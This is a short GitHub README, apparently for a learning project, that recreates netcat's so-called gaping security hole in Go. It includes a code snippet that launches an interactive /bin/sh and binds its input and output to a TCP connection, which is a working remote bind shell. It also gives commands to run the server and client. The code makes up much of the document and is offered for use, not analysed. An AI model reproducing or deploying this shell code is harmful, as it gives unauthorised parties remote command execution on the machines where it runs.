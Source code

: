 <h1 align="center">
Netcat gaping security hole
</h1>

Creating the Netcat gaping security hole in Golang.

## What was Netcat Gaping Security Hole?
Netcat is the TCP/IP swiss army knife, a more flexible, scriptable version of Telnet. It contains a feature
that allows stdin and stdout of any arbitary program to be redirected over TCP, enabling an attacker to run any shell
scripts. 

### Creating in Golang
With creating a Pipe, I allow stdin and stdout to redirected over TCP:
```go
// creating the shell
cmd := exec.Command("/bin/sh", "-i")
// creating our pipeline
rp, wp := io.Pipe()

// binding stdin and stdout to user connection and pipe output
cmd.Stdin = conn
cmd.Stdout = wp

// copy the input into pipeline
go io.Copy(conn, rp)
```

### How to run?
Server:
```
go run main.go
```

Client:
``` 
go run client/client.go
```
